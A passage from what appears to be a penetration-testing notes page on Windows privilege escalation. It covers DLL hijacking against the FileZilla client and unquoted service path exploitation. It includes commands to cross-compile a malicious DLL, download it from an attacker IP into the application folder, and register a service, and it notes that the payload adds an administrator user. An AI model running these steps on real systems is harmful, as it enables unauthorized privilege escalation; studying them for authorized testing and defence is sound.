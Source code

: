 {% tab title="2. Cross-compile" %}
```bash
# Cross-compile the script on the attacking machine
$ x86_64-w64-mingw32-gcc dll_hijacking.cpp --shared -o TextShaping.dll
```
{% endtab %}

{% tab title="3. Transfer" %}
{% code overflow="wrap" %}
```powershell
# Transfer the malicious DLL to the target host
iwr -uri http://192.168.45.236/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
{% endcode %}
{% endtab %}
{% endtabs %}

In order for the DLL hijacking to trigger the FileZilla FTP Client needs to be started, however, it is important to keep in mind that **the privileges the DLL will run with depend on the privileges used to start the application**. If we were to start the FTP client as a low-privileged user, then we would not have the required privileges for our payload to work, i.e., to add a new user to the system and place them in the `Administrators` group.

Some binaries need to be started as a service in order to function properly:

```powershell
# Create a new service pointing to the binary
sc.exe create "Filezilla" binpath= "C:\Users\x7331\Desktop\filezilla.exe"
# Restart the service
Restart-Service Filezilla
```

## Unquoted Service Paths <a href="#unquoted-service-paths" id="unquoted-service-paths"></a>

> _For automated enumeration and exploitation of this vector, see_ [_here_](../../../tools/active-directory/powerup.md#unquoted-service-paths)_._

1. Each Windows service maps to an executable file.
2. When a service starts, a process is created via the `CreateProcess` function.
3. The first parameter of this function, `IpApplicationName`, specifies the name and, optionally, the executable path. If the latter is an unquoted string that contains spaces, it can be used as a privilege escalation vector due to how Windows interprets the path.&#x20;

For example, `C:\Program Files\My Program\My Service\service.exe` will be interpreted as:

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

We can exploit this by creating a malicious executable in any of the paths before the original one. This will result in the former executing with the same privileges that the service starts with, typically, `LocalSystem`.
